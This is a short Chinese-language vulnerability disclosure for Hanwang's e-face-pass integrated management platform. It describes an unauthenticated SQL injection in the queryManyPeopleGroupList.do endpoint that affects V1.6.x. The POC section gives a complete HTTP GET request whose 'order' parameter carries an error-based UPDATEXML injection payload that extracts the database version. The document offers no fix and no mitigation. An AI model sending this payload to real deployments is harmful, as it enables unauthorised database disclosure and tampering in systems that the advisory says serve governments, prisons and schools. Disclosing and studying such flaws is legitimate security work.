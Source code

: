 **漏洞描述**
汉王e脸通综合管理平台是汉王公司研发的一款基于生物识别技术的智慧园区管理软件，集成了考勤管理、门禁管理、访客管理、巡更管理、消费管理、车控管理、梯控管理、人事管理等多个模块，广泛应用于政府、企业、监狱、学校、智慧社区等多个领域，实现无接触式快速通行，提升管理效率和安全性。其管理平台的 `queryManyPeopleGroupList.do` 接口存在 SQL 注入漏洞。攻击者可在无需认证的情况下，通过构造恶意请求参数注入恶意 SQL 语句，导致数据库信息泄露、数据篡改甚至系统权限提升，影响系统数据安全和完整性。


**披露时间**

2025-07-03

### 受影响组件

V1.6.x



### POC

```yaml
GET /manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357)) HTTP/1.1
Host: xxxx.xiaoai.com
```

